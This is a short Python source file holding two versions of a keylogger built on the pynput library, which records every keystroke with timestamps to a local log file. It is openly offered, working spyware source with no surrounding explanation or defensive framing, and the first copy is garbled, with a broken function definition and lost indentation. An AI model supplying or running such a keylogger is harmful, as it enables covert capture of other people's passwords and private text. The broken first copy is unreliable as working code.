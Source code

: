 from pynput.keyboard import Key,Listener
import logging
#if no name it gets into an empty string
log_dir=""
#This is basic logging function
logging.basicConfig(filename=(log_dir+"key_log.txt"),level=logging.DEBUG,
format='%(asctime)s:%(message)s:')
#This is from the library
defon_press(key):
logging.info(str(key))
#This says,listener is on
with Listener(on_press=on_press) as listener:
listener.join()
--------------------------------------------------------------------------------

from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "keylogs.txt"), \
	level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
